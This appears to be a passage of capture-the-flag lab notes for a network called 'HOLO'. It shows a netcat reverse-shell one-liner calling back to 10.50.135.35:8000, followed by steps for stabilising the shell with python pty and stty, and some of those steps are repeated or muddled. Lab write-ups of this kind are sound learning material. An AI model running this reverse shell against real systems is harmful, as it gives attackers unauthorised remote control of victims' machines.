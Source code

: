 

reverse shell through netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.50.135.35 8000 >/tmp/f
```



![image-20211229070223054](HOLO.assets/image-20211229070223054.png)



## Stablizing shell



```url
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```

```
Syntax: python -c 'import pty; pty.spawn("/bin/bash")'

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.

1. stty raw -echo; fg

2. fg

Note: If you're using ZSH, you must combine stty raw -echo;fg  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.

3. reset

4. export SHELL=BASH

For the next two steps, you will need to use the information you got from step 1. 

5. export SHELL=BASH

6. export TERM=<TERMINAL>

7. stty rows <num> columns <cols>
```